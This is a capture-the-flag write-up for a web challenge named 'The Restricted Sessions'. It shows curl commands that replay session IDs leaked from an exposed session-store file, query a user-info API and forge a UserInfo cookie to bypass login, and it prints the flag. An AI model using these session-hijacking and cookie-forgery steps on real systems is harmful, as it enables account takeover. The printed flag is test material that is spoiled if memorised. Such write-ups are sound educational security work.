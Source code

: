 ## The Restricted Sessions
```
Flag is restricted to logged users only , can you be one of them.
```
- Link: http://34.77.37.110/restricted-sessions/


#### Solve:

- Steps

    - When you visit the website you will see a message telling you:
        ```
        You are not logged-in so you don't have any flag to view
        ```
  
    - I took a look at the page's source, andI noticed:
        ```
        if(document.cookie !== ''){
            $.post('getcurrentuserinfo.php',{
              'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
            },function(data){
              cu = data;
            });
        }
        ```

    - As we can see there is an API *"getcurrentuserinfo.php"* that takes a param *PHPSESSID* in POST request, but let's leep it for a while:
   
    - we can test the main page with *curl*, adding this cookie *"PHPSESSID"*:
        ```
        curl http://34.77.37.110/restricted-sessions/ --cookie "PHPSESSID=123"
        ```
        
        - Response:
        ```
        Session not found in data/session_store.txt
        ```
      
    - Interesting ! we got a file path in the response, its content:
        ```
        iuqwhe23eh23kej2hd2u3h2k23
        11l3ztdo96ritoitf9fr092ru3
        ksjdlaskjd23ljd2lkjdkasdlk
        ```
        
        - we can guess that these are different *PHPSESSID*s

    - Now we can use *curl* as previous but this time we won't set the cookie value to 123, instead we can set it to any value from the *"session_store.txt"* file.
        ```
        curl http://34.77.37.110/restricted-sessions/ --cookie "PHPSESSID=11l3ztdo96ritoitf9fr092ru3"
        ```
        
        - Response:
        ```
        UserInfo Cookie don't have the username , Validation failed   
        ```
    
    - Now we can use the api we discovered and make a POST request to it with the param *PHPSESSID* set to *"11l3ztdo96ritoitf9fr092ru3"*:
        ```
        curl -X POST http://34.77.37.110/restricted-sessions/getcurrentuserinfo.php -d "PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23"
        ```
        
        - Response:
        ```
        {"name":"john","email":"john@example.com","session_id":"iuqwhe23eh23kej2hd2u3h2k23"}
        ```
    
    - Finally we can set the cookie *UserInfo* to the name we got, in this case it's *john*, we can inject them in the browser and refresh the page then boom here you go the flag !

> **Flag: sessionareawesomebutifitsecure**